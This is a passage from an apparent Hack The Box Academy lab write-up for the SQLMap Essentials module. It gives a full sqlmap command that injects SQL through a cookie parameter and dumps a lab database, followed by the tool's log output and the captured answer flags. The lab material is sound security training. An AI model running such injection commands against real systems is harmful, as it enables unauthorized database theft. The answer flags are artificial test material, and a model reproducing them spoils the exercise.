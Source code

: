```
+----+----------------------------------------+

[SNIP]
```

**Answer**

```
HTB{700_much_c0n6r475_0n_p057_r3qu357
```

#### Question #02

**Question**

 What's the contents of table `flag3`? (Case #3)

![Firefox - Case3 Cookie Value (id)](./assets/screenshots/sqlmap_essentials_firefox_case3_cookie_value_id.png)

```javascript
--batch --dump
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-ghcrxfwbqc]─[~]
└──╼ [★]$ sqlmap 'http://83.136.250.20:40656/case3.php' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://83.136.250.20:40656/' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: id=1*' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch --dump

[SNIP]

[04:42:29] [INFO] table 'testdb.users' dumped to CSV file '/home/htb-ac-1461567/.local/share/sqlmap/output/83.136.250.20/dump/testdb/users.csv'
[04:42:29] [INFO] fetching columns for table 'flag3' in database 'testdb'
[04:42:29] [INFO] fetching entries for table 'flag3' in database 'testdb'
Database: testdb
Table: flag3
[1 entry]
+----+------------------------------------------+
| id | content                                  |
+----+------------------------------------------+
| 1  | HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475} |
```